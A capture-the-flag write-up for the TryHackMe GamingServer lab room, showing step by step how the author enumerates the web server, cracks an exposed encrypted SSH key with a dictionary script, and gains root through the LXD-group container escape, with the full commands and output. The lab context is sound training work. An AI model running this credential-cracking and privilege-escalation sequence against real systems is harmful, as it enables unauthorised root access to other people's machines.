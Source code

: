 ```yaml
---
layout: post
title:  "THM - GamingServer Writeup"
date:   2022-09-11
author:
  - "Mario Raciti"
tags: ctf
---
```


The aim of this room is to gain access to a gaming server built by amateurs with no experience of web development and to take advantage of the deployment system.
<!-- readmore -->

There is only one task, indicating that we have to get two flags: `user_flag` and `root_flag`. So without any further ado, let's begin our game!

> TryHackMe CTF Room: <https://tryhackme.com/room/gamingserver>

## Nmap Scan

Let's start this room by running a classic nmap scan:

```sh
$ nmap -sC -sV $IP -oN logs/nmap

Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-31 17:09 CEST
Stats: 0:00:09 elapsed; 0 hosts completed (0 up), 1 undergoing Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Nmap scan report for 10.10.26.252
Host is up (0.078s latency).
Not shown: 921 closed ports, 77 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.45 seconds
```

Well, it seems we have only two open ports: `22 (SSH)` and `80 (HTTP)`.

## Web Directories Enumeration

Let's start by visiting the homepage of the web server listening on port 80. By inspecting the source page, we can notice that it contains the following comment at the footer:

```html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
```

Thus, we can guess that a candidate username for an SSH login could be `john`.

Now let's look if the web server provides a `robots.txt` file:

```
GET http://$IP/robots.txt

user-agent: *
Allow: /
/uploads/
```

We can see the `/uploads` endpoint, so let's investigate about:

```
GET http://$IP/uploads/

dict.lst 2020-02-05 14:10 2.0K  
manifesto.txt 2020-02-05 13:05 3.0K  
meme.jpg 2020-02-05 13:32 15K  
```

The `dict.lst` file seems to contain a password list. Maybe this list could be used to brute force the SSH login.

### Gobuster

Before going ahead, let's enumerate directories using Gobuster with the [common.txt](https://github.com/digination/dirbuster-ng/blob/master/wordlists/common.txt) list:

```sh
$ gobuster dir --url $IP -w common.txt -o logs/gobuster.log

===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.26.252
[+] Threads:        10
[+] Wordlist:       common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/08/31 17:44:37 Starting gobuster
===============================================================
/secret (Status: 301)
/uploads (Status: 301)
===============================================================
2020/08/31 17:45:03 Finished
===============================================================
```

As we can see, the tool found only two directories: `/secret` and `/uploads`. We already checked the latter, so we can concentrate our analysis on the `/secret` endpoint:

```
GET http://$IP/secret/

secretKey 2020-02-05 13:41 1.7K
```

Bingo! We got a private RSA SSH key:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

*******************************************
***********CENSORED_EH_EH******************
*******************************************
-----END RSA PRIVATE KEY-----
```

## SSH Dictionary Attack

The SSH RSA private key is encrypted, so we have to crack the password. To this purpose, we can surely use the `dict.lst` list that we found previously. Note that this operation can be performed by using our old friend JohnTheRipper, but in this case, I preferred to use the SSHAttacker Python script - the source is available [here](https://github.com/forScie/SSHAttacker) - to think *out of the box*. Before starting the cracking process, I just added the `key_name='rsa_id'` parameter to the connect method in the script, to adapt it to our use case:

```python
line 36    ssh.connect(target, port=int(float(port)), username=user, password=password, key_filename='./rsa_id')
```

At this point, we can simply run SSHAttacker with `dict.lst` as password list:

```
...
[-] Attempt n-1: ***censored*** ... Unsuccessful
[-] Attempt n: ***password_eheh*** ... Bingo!

[!] SUCCESS! Creds: john@10.10.165.124:22 Password: ***password_eheh***
```

We got the password and, after logging in via SSH, we can finally retrieve the user flag:

```sh
john@exploitable:~$ ls
user.txt
john@exploitable:~$ cat user.txt
***user_flag***
```

## Privilege Escalation

Now we have to elevate our privileges to get the root flag. We can just scp and run the [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) script in the VM to look for something interesting.
First, I noticed that there is a weird link in a `/usr/bin/at` binary. But it was a joke just as `/usr/bin/pkexec`, another potential way to elevate our privileges. Both refer to CVEs which can be exploited by using a C executable, FYI.

At this point, I was looking for the right way to perform a privilege escalation. We can notice that the user john is in the lxd group:

```sh
john@exploitable:~$ id
uid=1000(john) gid=1000(john) groups=1000(john),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
```

We can exploit this fact because LXD containers run with root privileges in most cases. Therefore, the exploit consists of mounting the file system in a container, so that we can have access to it. For more information, you can read [this article](https://www.hackingarticles.in/lxd-privilege-escalation/). In our case, we can use the alpine image:

```sh
attacker@machine:~$ git clone https://github.com/saghul/lxd-alpine-builder.git
attacker@machine:~$ cd lxd-alpine-builder/
attacker@machine:~$ sudo ./build-alpine -a i686
```

Now we have to move the `alpine-v3.12-i686-20200901_1306.tar.gz` archive to the victim machine:

```sh
attacker@machine:~$ scp -i rsa_id alpine-v3.12-i686-20200901_1306.tar.gz john@10.10.170.65:/home/john/
```

Eventually, all we have to do is to just add the image as follows:

```sh
john@exploitable:~$ lxc image import alpine-v3.12-i686-20200901_1306.tar.gz --alias exploit_image
Image imported with fingerprint: dc53ca24314f0dee7e940d9e9519215a725b761e8e6ad98
john@exploitable:~$ lxc image list
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
|     ALIAS     | FINGERPRINT  | PUBLIC |          DESCRIPTION          | ARCH |  SIZE  |         UPLOAD DATE         |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
| exploit_image | dc53ca24314f | no     | alpine v3.12 (20200901_13:06) | i686 | 3.07MB | Sep 1, 2020 at 1:17pm (UTC) |
+---------------+--------------+--------+-------------------------------+------+--------+-----------------------------+
```

We can now run the container from the `exploit_image` image:

```sh
john@exploitable:~$ lxc init exploit_image ignite -c security.privileged=true
Creating ignite
john@exploitable:~$ lxc config device add ignite my_device disk source=/ path=/mnt/root recursive=true
Device my_device added to ignite
john@exploitable:~$ lxc start ignite
john@exploitable:~$ lxc exec ignite /bin/sh
~ # whoami
root
```

And voilà!

The root flag can be retrieved by going to the mounted path `/mnt/root/root`:

```sh
~ # cd /mnt/root/root
/mnt/root/root # ls
root.txt
/mnt/root/root # cat root.txt 
***root_flag***
```

---

### That's all folks

You can find the files related to this CTF at <https://github.com/tsumarios/CTF-Writeups/tree/master/THM/GamingServer>.
